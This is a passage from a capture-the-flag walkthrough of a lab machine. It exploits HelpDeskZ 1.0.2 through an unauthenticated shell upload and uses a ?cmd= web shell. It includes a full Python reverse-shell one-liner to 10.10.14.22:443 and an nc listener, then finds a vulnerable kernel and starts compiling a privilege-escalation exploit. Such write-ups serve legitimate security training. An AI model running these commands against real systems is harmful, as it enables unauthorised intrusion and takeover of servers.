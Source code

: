 Before we submit the ticket we run the python exploit so that hopefully it will be running and generate the same MD5 time code as the application:
```
root@kali: python 40300.py http://10.10.10.121/support/uploads/tickets/ thoseguys.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://10.10.10.121/support/uploads/tickets/7dfad97ac10a39c7e13bf16a79f893a4.php
```
> If (like us) you are not in the GMT time zone, you may need to go to the users preferences and select the timezone in the application to match your time zone so the MD5 hashing matches

Once we get a hit we can browse there and use our ?cmd= query string to run commands against the system.

Having a quick poke around at applications that can give us a shell we see with which python that the server has python installed and we are able to use our standard python reverse shell code:
```
?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Set up a matching nc listener (`nc -nlvp 443`) and we get a shell. enter `python -c 'import pty; pty.spawn(“/bin/bash”)` to upgrade the shell and we are now on the box as the help user:
```
help@help:~$
```
From here we are able to read the user.txt flag and it is time to enumerate the box and find a way to become root.

As we normally do once we have access to the box we look at interesting files on the machine as well as the server kernel version etc. In this case we notice that the kernel running is not up to date:
```
help@help:~$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
Using `searchsploit` again we see that this version of the Linux kernel is vulnerable to a local privilege escalation vulnerability. This sounds just like what we are looking for:
```
help@help:~$ searchsploit linux kernel 4.4.0-116
----------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                 |  Path (/usr/share/exploitdb/)
----------------------------------------------------------------------------------------------- ----------------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                         | exploits/linux/local/44298.c
----------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```
So we grab a local copy with `searchsploit -m 44298` and compile it with `gcc 44298.c -o thoseguys`
